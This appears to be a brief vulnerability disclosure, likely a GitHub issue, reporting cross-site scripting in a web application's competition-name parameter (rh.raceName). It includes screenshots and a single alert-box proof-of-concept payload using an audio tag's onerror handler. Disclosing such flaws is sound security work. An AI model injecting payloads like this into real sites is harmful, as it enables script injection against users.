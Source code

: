 # xss
By injecting malicious instruction code into the web page, the user can load and execute the web page program maliciously created by the attacker.


Competition name: rh.raceName parameter
![image](https://user-images.githubusercontent.com/83150001/115981725-864a7180-a5c8-11eb-9e87-3054aaf157a1.png)

payload：
	test"><audio src=x onerror=alert(2)>
![image](https://user-images.githubusercontent.com/83150001/115981744-a1b57c80-a5c8-11eb-8b91-4c3d99daff55.png)
  
  ![image](https://user-images.githubusercontent.com/83150001/115981949-1341fa80-a5ca-11eb-9937-03b63c65449c.png)

  
